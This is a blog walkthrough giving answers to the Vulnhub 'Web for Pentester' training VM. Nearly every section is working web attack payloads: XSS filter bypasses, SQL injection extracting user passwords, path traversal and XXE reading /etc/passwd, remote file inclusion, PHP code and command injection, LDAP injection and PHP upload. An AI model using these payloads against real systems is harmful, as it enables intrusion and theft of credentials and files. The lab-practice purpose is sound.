 ```yaml
---
layout: post
title: "Vulnhub: Web for P3ntester"
categories: vulnhub
author: "dib"
permalink: /vulnhub/web-for-pentester/
tags: vulnhub
---
```


> "IoT without security = Internet of Threats" -- Stéphane Nappo

![][1]
![][2]

We're gonna practice one of the oldies but goodie VMs on Vulnhub, it's P3ntester Lab: Web for P3ntesters. To download this VM, click [here](https://www.vulnhub.com/entry/pentester-lab-web-for-pentester,71/). Let's do all the exercises.

### 0x00 Get IP address

![][3]

<details>
  <summary>
    get VM IP address
  </summary>

<pre>
&nbsp;
<b>imd@kali:~$</b> sudo ifconfig
[sudo] password for imd: 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.222.129  netmask 255.255.255.0  broadcast 192.168.222.255
        inet6 fe80::20c:29ff:fe30:674e  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:30:67:4e  txqueuelen 1000  (Ethernet)
        RX packets 3055  bytes 794511 (775.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 984  bytes 103982 (101.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 22  bytes 1052 (1.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 22  bytes 1052 (1.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

<b>imd@kali:~$</b> sudo arp-scan 192.168.222.0/24
Interface: eth0, type: EN10MB, MAC: 00:0c:29:30:67:4e, IPv4: 192.168.222.129
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.222.1	00:50:56:c0:00:08	VMware, Inc.
192.168.222.2	00:50:56:e7:41:94	VMware, Inc.
192.168.222.128	00:0c:29:ee:a3:2a	VMware, Inc.
192.168.222.254	00:50:56:ea:ab:d2	VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.124 seconds (120.53 hosts/sec). 4 responded

</pre>
</details>

Just type "ifconfig" on the machine to get its IP. or you can scan it on your machine. Victim's target IP is 192.168.222.128.

### 0x01 XSS

<details>
  <summary> XSS exercises answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
{% highlight html %}
<script>alert('vulnerable')</script>
{% endhighlight %}

<b>Exercise 2</b>
{% highlight html %}
<Script>alert('vulnerable')</Script>
{% endhighlight %}

<b>Exercise 3</b>
{% highlight html %}
<scr<script>ipt>alert('vulnerable')</scr</script>ipt>
<svg/onload=alert('vulnerable');
{% endhighlight %}

<b>Exercise 4</b>
{% highlight html %}
<img src="null" onerror='alert("vulnerable")'/>
{% endhighlight %}

<b>Exercise 5</b>

convert ascii to dec

https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html

`<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 118, 117, 108, 110, 101, 114, 97, 98, 108, 101, 34, 41))</script>`

<b>Exercise 6</b>
{% highlight html %}
";alert('vulnerable');"
{% endhighlight %}

<b>Exercise 7</b>
{% highlight html %}
';alert('vulnerable');'
{% endhighlight %}

<b>Exercise 8</b>
{% highlight html %}/">
<script>alert('vulnerable')</script>
{% endhighlight %}

<b>Exercise 9</b>

do it preferably on internet explorer browser which is known as vulnerable on DOM based xss attack

{% highlight html %}
#hacker<script>alert('vulnerable')</script>
{% endhighlight %}

</pre>
</details>

### 0x02 SQLi

<details>
  <summary> SQLi exercises answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
{% highlight html %}
' or 1=1-- -
' or 1=1 union all select 1,2,3,4,table_name from information_schema.tables-- -
' or 1=1 union all select 1,2,3,4,column_name from information_schema.columns-- -
{% endhighlight %}

<b>Exercise 2</b>

https://www.eso.org/~ndelmott/url_encode.html

"%09" = tab

{% highlight html %}
'%09or%091=1--%09-
'/**/union/**/select/**/1,(select/**/name/**/from/**/users/**/limit/**/3,1),(select/**/passwd/**/from/**/users/**/limit/**/3,1),4,5/**/and/**/'1'='2
{% endhighlight %}

<b>Exercise 3</b>
{% highlight html %}
'/**/union/**/select/**/1,(select/**/name/**/from/**/users/**/limit/**/3,1),(select/**/passwd/**/from/**/users/**/limit/**/3,1),4,5/**/and/**/'1'='2
{% endhighlight %}

<b>Exercise 4</b>
{% highlight html %}
or 1=1
sqlmap -u &quot;http://pentesterlab/sqli/example4.php?id=2&quot; --dbs
{% endhighlight %}

<b>Exercise 5</b>
{% highlight html %}2 or 1=1-- -{% endhighlight %}

<b>Exercise 6</b>
{% highlight html %}2 or 1=1-- -{% endhighlight %}

<b>Exercise 7</b>
{% highlight html %}%0a or 1=1{% endhighlight %}

<b>Exercise 8</b>

"%23" is hash (#) encoded

{% highlight html %}
ORDER BY ``%23 or order = name`,` name`
`%23 or order = name
{% endhighlight %}

<b>Exercise 9</b>
{% highlight html %}IF (1, name, age){% endhighlight %}

</pre>
</details>

### 0x03 Directory Traversal

<details>
  <summary>directory traversal answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
{% highlight html %}file=../../../../etc/passwd{% endhighlight %}

<b>Exercise 2</b>>

{% highlight html %}file=/var/www/files/../../../../etc/passwd{% endhighlight %}

<b>Exercise 3</b>>

{% highlight html %}file=../../../../etc/passwd%00
file=../../../../etc/passwd%2500{% endhighlight %}

</pre>
</details>

### 0x04 File Path

<details>
  <summary>file path answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
{% highlight html %}
page=../../../../etc/passwd
page=http://192.168.222.129/phpinfo.txt
page=http://spenneberg.org/phpinfo.txt
{% endhighlight %}

<b>Exercise 2</b>
{% highlight html %}
page=http://www.spenneberg.org/phpinfo.txt%00
{% endhighlight %}

</pre>
</details>

### 0x05 Code Injection

<details>
  <summary>code injection answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
decoded url to ascii:
hacker ".system ('hostname'); #
{% highlight html %}
name=hacker".system('whoami')%3B%23
name=hacker%22.system(%27hostname%27)%3B%23
{% endhighlight %}

<b>Exercise 2</b>
{% highlight html %}
order=id)%3B}system('cat /etc/passwd')%3B%23
{% endhighlight %}

<b>Exercise 3</b>
{% highlight html %}
pattern=/[0-9]/e&new=system('cat /etc/passwd')&base=1
{% endhighlight %}

<b>Exercise 4</b>
{% highlight html %}
name=hacker'.system('cat /etc/passwd')%3B%23
name=hacker'.system('cat /etc/passwd').'
{% endhighlight %}

</pre>
</details>

### 0x06 Command Injection

<details>
  <summary>command injection answers</summary>

<pre>
&nbsp;  
<b>Exercise 1</b>
{% highlight html %}
ip=127.0.0.1;id
{% endhighlight %}

<b>Exercise 2</b>
{% highlight html %}
ip=127.0.0.1%0Aid
{% endhighlight %}

<b>Exercise 3</b>
{% highlight html %}
GET /commandexec/example3.php?ip=127.0.0.1|cat+/etc/passwd HTTP/1.0
{% endhighlight %}

</pre>
</details>

### 0x07 LDAP Attacks

<details>
  <summary>LDAP attacks answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
{% highlight html %}
just remove '?username=hacker&password=hacker'
{% endhighlight %}

<b>Exercise 2</b>
{% highlight html %}
name=hacker)(cn=*))%00&password=test
{% endhighlight %}

</pre>
</details>

### 0x08 File Upload

<details>
  <summary>file upload answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
{% highlight html %}
echo "<?php phpinfo(); ?>" > phpinfo.php
/upload/images/phpinfo.php
{% endhighlight %}


<b>Exercise 2</b>
{% highlight html %}
echo "<?php phpinfo(); ?>" > phpinfo.php.text
/upload/images/phpinfo.php.test
{% endhighlight %}

</pre>
</details>

### 0x09 XML Attacks

<details>
  <summary>xml attack answers</summary>

<pre>
&nbsp;
<b>Exercise 1</b>
{% highlight html %}
xml=<!DOCTYPE test [<!ENTITY xxe SYSTEM "file%3A%2f%2f%2fetc%2fpasswd">]><test>%26xxe%3B<%2ftest>
{% endhighlight %}

<b>Exercise 2</b>
{% highlight html %}
name=' or 1=1]%00
{% endhighlight %}

</pre>
</details>


[1]: https://i.imgur.com/3xNv7Vl.png
[2]: https://i.imgur.com/L7aKp5g.png
[3]: https://i.imgur.com/WcRI3QW.png